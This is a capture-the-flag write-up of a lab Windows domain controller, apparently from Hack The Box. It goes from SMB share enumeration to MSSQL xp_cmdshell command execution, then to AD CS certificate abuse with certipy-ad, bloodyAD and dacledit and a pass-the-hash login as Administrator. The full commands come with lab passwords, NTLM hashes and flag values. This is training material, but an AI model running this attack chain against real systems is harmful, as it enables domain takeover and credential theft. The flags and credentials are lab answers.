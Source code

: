 ```yaml
---
sticker: emoji//0032-fe0f-20e3
---
```

# ENUMERATION
---

## OPEN PORTS
---



| IP ADDRESS  |
| ----------- |
| 10.10.11.51 |


| PORT     | SERVICE      |
| -------- | ------------ |
| 53/tcp   | domain       |
| 88/tcp   | kerberos-sec |
| 135/tcp  | msrpc        |
| 139/tcp  | netbios-ssn  |
| 389/tcp  | ldap         |
| 445/tcp  | microsoft-ds |
| 464/tcp  | kpasswd5     |
| 593/tcp  | ncacn_http   |
| 636/tcp  | ssl/ldap     |
| 1433/tcp | ms-sql-s     |
| 3268/tcp | ldap         |
| 3269/tcp | ssl/ldap     |
| 5985/tcp | http         |

We got a lot of open ports, this is a Windows machine, let's start reconnaissance.

# RECONNAISSANCE
---

At first, we are already given some credentials:

```ad-note

`rose`:`KxEPkKe6R8su`
```

We can start with some basic SMB enumeration:

```ad-hint
![](../images/Pasted%20image%2020250114171402.png)
We got a few shares, most interesting one would be `Accounting Deparment` one, let's take a look at it:

![](../images/Pasted%20image%2020250114171518.png)

We have two files, let's download them both and check the contents:

![](../images/Pasted%20image%2020250114172631.png)

Since they are zip files, we need to unzip them and review the contents:

![](../images/Pasted%20image%2020250114172708.png)

After an extensive search, we can see that `xl/sharedStrings.xml` is a file that contains credentials to `mssql`, we can connect using the `mssqlclient.py` script from [impacket](https://github.com/fortra/impacket)
```

# EXPLOITATION
---

Let's connect:

```ad-hint
##### Used
---
`mssqlclient.py 'sa:MSSQLP@ssw0rd!'@10.10.11.51`

![](../images/Pasted%20image%2020250114173718.png)

We can now begin with enumeration, for this, we can use help to check which commands are available:
![](../images/Pasted%20image%2020250114174132.png)

It seems like we can enable some sort of shell, I asked chatgpt about it and it said I must follow these steps:

1. `enable_xp_cmdshell`
2. `RECONFIGURE;`
3. `EXEC xp_cmdshell 'command';`

Once I did that, this happened:

![](../images/Pasted%20image%2020250114174247.png)
We get some sort of `RCE`, let's try to enumerate `C:\` folder:

![](../images/Pasted%20image%2020250114174329.png)
![](../images/Pasted%20image%2020250114174556.png)
We got an user: `ryan`, tried to check the contents but it was empty, we can follow another route, we already know we have a `SQL2019` directory, there must be a SQL configuration file we can read and get some credentials:

![](../images/Pasted%20image%2020250114174929.png)

That's right, let's read the configuration file:

![](../images/Pasted%20image%2020250114174959.png)


We got credentials for another user.
```


```ad-note
`sql_svc`:`WqSZAF6CysDQbGb3`
```


Since we also know the domain is called `SEQUEL`, we can use `evil-winrm` to log in:

![](../images/Pasted%20image%2020250114193709.png)

We are unable to log with those credentials, but remember we have another user, `ryan`, let's try with that username:


![](../images/Pasted%20image%2020250114193750.png)

And we're in, let's read `user.txt`:

```ad-important
![](../images/Pasted%20image%2020250114193939.png)

User: `1c3847c8cc30b9afd12ff6c2bc86f0db`
```

Let's begin PRIVESC.

# PRIVILEGE ESCALATION
---


For privilege escalation, we can use tools like `bloodyAD`, `dacledit.py` and `certipy-ad` (I used Kali Linux in this part), let's follow these steps:

```ad-hint
1. `python3 bloodyAD.py --host DC01.sequel.htb -d SEQUEL.HTB -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan`
2. `dacledit.py -action 'write' -rights 'FullControl' -principal ryan -target ca_svc SEQUEL.HTB/ryan:'WqSZAF6CysDQbGb3'`
3. `certipy-ad shadow auto -u ryan@SEQUEL.HTB -p 'WqSZAF6CysDQbGb3' -dc-ip 10.10.11.51 -ns 10.10.11.51 -target DC01.sequel.htb -account ca_svc`
4. `KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad find -scheme ldap -k -debug -target dc01.sequel.htb -dc-ip 10.10.11.51 -vulnerable -stdout`
5. `KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip 10.10.11.51`
6. `certipy-ad req -u ca_svc -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target dc01.sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn Administrator@SEQUEL.HTB -ns 10.10.11.51 -dns 10.10.11.51 -debug`
7. `certipy-ad auth -pfx administrator_10.pfx -dc-ip 10.10.11.51`
8. `evil-winrm -i 10.10.11.51 -u 'administrator' -H '7a8d4e04986afa8ed4060f75e5a0b3ff'`
```


So, explanation of this PRIVESC is that we're abusing the CA:

```ad-important
- Identified that the `Certificate Authority (CA)` has a misconfiguration where a vulnerable template called `DunderMifflinAuthentication` is available. This template is part of the certificate services and allows for certain users (like `Domain Admins`) to request certificates with **elevated privileges**.
- The vulnerability identified was that `Cert Publishers` (a group with a dangerous permission set) have access to request certificates. **Cert Publishers** are not typically expected to have these rights, which opens the door for attackers.
```

With this, we are able to obtain a certificate as administrator, thus, obtaining the hash for Admin user, making us able to perform [Pass the hash](https://www.beyondtrust.com/resources/glossary/pass-the-hash-pth-attack)
Like that, we can read root flag:

![](../images/Pasted%20image%2020250115141448.png)

```ad-important
Root: `63404c844597a9eef0c7a440b65564a3`
```

